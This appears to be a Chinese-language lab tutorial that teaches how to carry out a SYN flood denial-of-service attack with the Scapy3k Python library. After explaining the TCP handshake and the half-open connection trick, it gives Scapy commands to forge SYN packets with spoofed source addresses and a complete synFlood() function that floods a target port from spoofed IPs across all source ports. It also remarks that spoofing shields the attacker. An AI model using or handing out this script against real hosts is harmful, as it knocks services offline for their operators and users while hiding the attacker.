 # Scapy实现SYN泛洪攻击

## 一、实验说明

### 1.实验介绍
本次实验将使用python3版本的Scapy--Scapy3k来实现一个简单的DDos，本次实验分为两节，本节将学习如何使用Scapy3k来实现SYN泛洪攻击。


### 2.知识点

 1. SYN泛洪攻击的实现原理
 2. Scapy3k的基本用法

### 3.效果图

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid231096labid2236timestamp1477456226921.png/wm)

## 二、基础知识
以下部分内容整理自百度百科、360百科和Scapy3k官方文档：
- [SYN Flood](http://baike.so.com/doc/5503756-5739500.html)
- [SYN 泛洪攻击](http://baike.baidu.com/link?url=cXyy0mXM6Hnt3sZtUO0QG-8Nah39thBvBLI4GAUbHP4d8fFBxFMloZdKN9tgb_XNWlp42OZjHnP_oH4kTqFpfg1ycHz0j_wFJn4bEqYQvKSu03WJ6Mn0gR7xC4_69t0T)
- [Scapy3k官方文档](https://phaethon.github.io/scapy/api/)

### 1.SYN泛洪攻击
`SYN泛洪攻击`(SYN Flood)是一种比较常用的`DoS`方式之一。通过发送大量伪造的Tcp连接请求，使被攻击主机资源耗尽(通常是CPU满负荷或者内存不足)
的攻击方式。

我们都知道建立Tcp连接需要完成三次握手。正常情况下客户端首先向服务端发送`SYN报文`，随后服务端回以SYN+ACK报文到达客户端，最后客户端向服务端发送ACK报文完成三次握手。

![正常TCP连接](https://dn-anything-about-doc.qbox.me/document-uid231096labid2236timestamp1477479667232.png/wm)

而`SYN泛洪攻击`则是客户端向服务器发送`SYN报文`之后就不再响应服务器回应的报文。由于服务器在处理TCP请求时，会在协议栈留一块缓冲区来存储握手的过程，当然如果超过一定的时间内没有接收到客户端的报文，本次连接在协议栈中存储的数据将会被丢弃。攻击者如果利用这段时间发送大量的连接请求，全部挂起在`半连接状态`。这样将不断消耗服务器资源，直到`拒绝服务`。

![SYN Flood](https://dn-anything-about-doc.qbox.me/document-uid231096labid2236timestamp1477479685456.png/wm)

### 2.Scapy3k基本用法

`Scapy3k`其实就是`Scapy`的Python3版本，以下我就简称`Scapy`。`Scapy`是一个强大的交互式数据包处理程序。可用来发送、嗅探、解析和伪造网络数据包。在网络攻击和渗透测试中应用非常广泛。`Scapy`是一个独立的程序同时还可以作为Python的第三方库使用。是不是有些迫不及待的想见识一下`Scapy`的强大之处了？

我们先在实验环境中安装`Scapy3k`:

```
sudo pip3 install scapy-python3
```

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid231096labid2236timestamp1477485000170.png/wm)

现在运行`scapy`学习一下它的使用方法。

```
sudo scapy
```

这里需要注意：`Scapy`发送数据包需要`root`权限，所以这里我们加上了`sudo`。另外运行的时候会出现一些警告信息，我们这次实验没有用到相关的功能可以不用管，需要用的安装相应的依赖包就可以了。

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid231096labid2236timestamp1477487752634.png/wm)

现在我们用`Scapy`构造一个简单的数据包看一下：


```
pkt = IP(dst=&#34;192.168.0.100&#34;)
```

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid231096labid2236timestamp1477550216352.png/wm)

可以看到`Scapy`构造一个数据包非常简单，我们再来看一下如何构造`SYN`数据包：

```
IP(src=&#34;202.121.0.12&#34;,dst=&#34;192.168.0.100&#34;)/TCP(dport=80,flags=&#34;S&#34;)
```

我们构造了一个IP包和TCP包并将它们组合到一块，这样就有了一个完整的TCP数据包，否则是无法发送出去的。IP包中我们指定了源地址`src`和目的地址`dst`，其中`src`是我们伪造的地址，当然这也是DoS攻击中保护攻击者的一种方式。`flags`的值我们设定为`S`,说明我们要发送的是`SYN`数据包。非常简短的一段指令就够造了一个伪造了源IP地址的`SYN`数据包，是不是很简单？

构造了我们想要的数据包，现在我们把它发送出去：


```
pkt = IP(src=&#34;202.121.0.12&#34;,dst=&#34;192.168.0.100&#34;)/TCP(dport=80,flags=&#34;S&#34;)
send(pkt)
```

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid231096labid2236timestamp1477553741099.png/wm)

至此我们编写`SYN泛洪攻击`的基本知识就已经全部介绍完了，用这些知识足够我们来完成本次试验了。至于`Scapy`的更详细用法，可以看一下官方文档，你就会发现`Scapy`的强大之处。

## 三、代码实现

现在我们要用Python以第三方库的形式使用`Scapy`,使用方法和用交互式Shell的方式一样，注意：使用前要先导Scapy的包：

```
from scapy.all import
```
之前我们已经构造过了`SYN`数据包，现在我们需要实现随机伪造源IP地址、以及以不同的源端口向目标主机发送`SYN`数据包:

```
import random
from scapy.all import *

def synFlood(tgt,dPort):
    srcList = [&#39;201.1.1.2&#39;,&#39;10.1.1.102&#39;,&#39;69.1.1.2&#39;,&#39;125.130.5.199&#39;]
    for sPort in range(1024,65535):
        index = random.randrange(4)
        ipLayer = IP(src=srcList[index], dst=tgt)
        tcpLayer = TCP(sport=sPort, dport=dPort,flags=&#34;S&#34;)
        packet = ipLayer / tcpLayer 
        send(packet)

```
在代码中我定义了`srcList`用于存放伪造的IP地址，之后定义了一个循环，作用是每次发送数据包源端口都改变，可以看到在构造TCP数据包的时候我们增加了一个参数`sport`，循环中改变的端口号就是给了`sport`这个参数。我们还调用`random.randrange()`函数来随机从`srcList`中获取一个伪造的IP地址。

至此我们本次实验就完成了，虽然代码非常少不过功能我们却实现的比较理想，这主要是因为Python的语法本身非常简洁，再加上`Scapy`封装的也非常好，才会让我们写出即简洁功能又强大的代码。

现在我们只实现了`DoS`攻击的脚本，在下一次实验我们将继续完善代码，实现`DDoS`。
